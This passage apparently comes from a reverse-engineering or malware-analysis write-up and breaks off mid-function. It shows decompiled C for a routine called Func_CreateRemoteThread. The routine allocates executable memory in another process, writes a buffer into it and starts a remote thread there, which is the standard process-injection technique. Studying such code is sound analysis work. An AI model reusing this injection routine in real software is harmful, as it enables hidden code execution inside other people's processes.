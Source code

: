 ![image-20250609214615566](img/image-20250609214615566.png)

```c
HANDLE __fastcall Func_CreateRemoteThread(HANDLE hProcess, LPCVOID lpBuffer, SIZE_T dwSize, void **a4)
{
  void **v4; // rbx
  SIZE_T v5; // r12
  HANDLE v8; // rsi
  unsigned int v9; // eax
  __int64 v10; // r13
  char *v11; // rax
  char *v12; // r12
  SIZE_T nSize; // [rsp+40h] [rbp-88h]
  void *v15[5]; // [rsp+48h] [rbp-80h] BYREF
  void **v16; // [rsp+70h] [rbp-58h]
  DWORD ThreadId; // [rsp+78h] [rbp-50h] BYREF

  v15[4] = (void *)-2LL;
  v4 = a4;
  v5 = (unsigned int)dwSize;
  v16 = a4;
  v8 = 0LL;
  ThreadId = 0;
  try
  {
    if ( hProcess )
    {
      if ( lpBuffer )
      {
        if ( (_DWORD)dwSize )
        {
          v15[3] = (void *)15;
          v15[2] = 0LL;
          LOBYTE(v15[0]) = 0;
          sub_7FFBE8EA17E0(v15, a4, 0LL, 0xFFFFFFFFFFFFFFFFuLL);
          v9 = sub_7FFBE8EA2910(lpBuffer, v15);
          v10 = v9;
          if ( v9 )
          {
            nSize = v5;
            v11 = (char *)VirtualAllocEx(hProcess, 0LL, (unsigned int)v5, 0x3000u, 0x40u);
            v12 = v11;
            if ( v11 )
            {
              if ( WriteProcessMemory(hProcess, v11, lpBuffer, nSize, 0LL) )
                v8 = CreateRemoteThread(
                       hProcess,
                       0LL,
                       0x100000uLL,
                       (LPTHREAD_START_ROUTINE)&v12[v10],
```